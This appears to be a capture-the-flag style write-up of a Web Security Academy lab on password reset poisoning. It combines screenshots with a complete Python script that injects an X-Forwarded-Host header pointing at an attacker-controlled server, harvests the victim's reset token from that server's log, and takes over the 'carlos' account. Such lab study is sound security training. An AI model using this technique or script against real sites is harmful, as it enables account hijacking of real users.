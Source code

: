 # Lab: Password reset poisoning via middleware

This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.

---

# Password Reset Flow:

### Click on `Forgot password?`:
![image](https://github.com/user-attachments/assets/a03835d0-333d-48d2-bd90-145771698435)

---

### Enter the username:
![image](https://github.com/user-attachments/assets/e3297070-437e-4cc7-9938-ea19c19ab408)

---

### Access our email by clicking `Go to exploit server`, then scrolling down and clicking on `Email client`:
![image](https://github.com/user-attachments/assets/6898b6d6-9360-4c9c-9393-7036eac7969d)

---

### Click on the link provided in the email:
![image](https://github.com/user-attachments/assets/d2ebabb0-b7cc-4e3d-b7b4-5345f4a8f46b)


---

### Enter the new password in the form:
![image](https://github.com/user-attachments/assets/aea95600-47b1-4228-bef0-434f52cc206e)

---

## Attempt to replicate the process for the user `carlos`. Send the main requests of the process to the repeater.

We can see that the server constructs the "reset link" using the `Origin` header value, for example, "https://0a2f00ae043060bb82564d82004c006e.web-security-academy.net/". We can attempt to trick the server by injecting the `X-Forwarded-Host` header. If the server prioritizes the `X-Forwarded-Host` header over the `Origin` header, it would use the malicious value provided in the `X-Forwarded-Host` header to construct the reset link.

By injecting the X-Forwarded-Host header, we can manipulate the value the server uses to construct the reset link. For instance, if we send the following request:
![image](https://github.com/user-attachments/assets/72260c58-93a4-42de-bf45-b49dee829e60)

---

### Check our email and confirm that we have received an email with the password reset URL pointing to our server:
![image](https://github.com/user-attachments/assets/30037c03-e232-41bd-aabb-7e659bf1dcdd)

---

### As observed, this injection could be used to execute an attack.

---

### Send the same request but for the user `carlos`:
![image](https://github.com/user-attachments/assets/715daa03-a69e-4c53-8090-3248592baa03)

---

### Wait to receive the password reset request on our server:
![image](https://github.com/user-attachments/assets/dadeb2a2-bd96-4516-b5eb-c94b256e7d43)

---

### Send the `GET` request to access the reset form:
![image](https://github.com/user-attachments/assets/2870b5f8-f8f5-4d53-8120-81cdcf8135d8)

---

### Reset the password:
![image](https://github.com/user-attachments/assets/14823296-df73-478d-8501-74c3d4de5a80)

---

### Log in and solve the lab:
![image](https://github.com/user-attachments/assets/9b99c0f8-92f9-4a80-8e23-bb5325f0cc20)


---

- Exploit:

```python
from bs4 import BeautifulSoup
import re
import requests
import urllib3


def setup_session():
    """Sets up the requests session and disables SSL warnings."""
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    session = requests.Session()
    return session, proxies


def get_exploit_server_url(session, url, proxies):
    """Retrieves the exploit server URL from the main page."""
    resp = session.get(url, verify=False, proxies=proxies)
    soup = BeautifulSoup(resp.content.decode(), 'html.parser')
    return soup.find("a", id="exploit-link")["href"]


def reset_password(session, url, proxies, url_server):
    """Sends the password reset request with a manipulated header."""
    url_forgot_password = url + '/forgot-password'
    headers = {'X-Forwarded-Host': url_server.split('://')[1]}
    data = {'username': 'carlos'}
    session.post(url_forgot_password, data=data, headers=headers, verify=False, proxies=proxies)


def extract_token_from_log(session, url_log, proxies):
    """Extracts the temporary token from the server log."""
    r_log = session.get(url_log, verify=False, proxies=proxies)
    soup = BeautifulSoup(r_log.text, 'html.parser')
    pre_content = soup.find('pre').getText().splitlines()
    lines = [line.strip() for line in pre_content if 'GET /forgot-password?temp-forgot-password-token=' in line]
    if not lines:
        raise ValueError("Token not found in the log.")
    line = lines[-1]
    pattern = r'GET (/forgot-password\?temp-forgot-password-token=[\w\d]+)'
    match = re.search(pattern, line)
    return match.group(0).split(' ')[1]


def perform_password_reset(session, url, token_url, proxies):
    """Performs the password reset using the token."""
    url_reset_password = url + token_url
    r_get_reset_password = session.get(url_reset_password, verify=False, proxies=proxies)
    soup = BeautifulSoup(r_get_reset_password.text, 'html.parser')
    params = soup.find_all('input')
    data = {
        params[0]['name']: token_url.split('=')[1],
        params[1]['name']: 'password',
        params[2]['name']: 'password'
    }
    session.post(url_reset_password, data=data, verify=False, proxies=proxies)


def login_with_new_password(session, url, proxies):
    """Attempts to log in with the new password."""
    url_login = url + '/login'
    data = {'username': 'carlos', 'password': 'password'}
    r_post_login = session.post(url_login, data=data, verify=False, proxies=proxies)
    return 'Your username is: carlos' in r_post_login.text


def main():
    # Initial setup
    session, proxies = setup_session()
    url = 'https://0add003d045f806782265ba6001e000c.web-security-academy.net'

    # Step 1: Get the exploit server URL
    url_server = get_exploit_server_url(session, url, proxies)

    # Step 2: Prepare relevant URLs
    url_log = url_server + '/log'

    # Step 3: Reset password and manipulate header
    reset_password(session, url, proxies, url_server)

    # Step 4: Extract token from the log
    token_url = extract_token_from_log(session, url_log, proxies)

    # Step 5: Perform password reset
    perform_password_reset(session, url, token_url, proxies)

    # Step 6: Log in with the new password
    if login_with_new_password(session, url, proxies):
        print('Lab Solved!')
    else:
        print('Error solving the lab.')


if __name__ == '__main__':
    main()
```
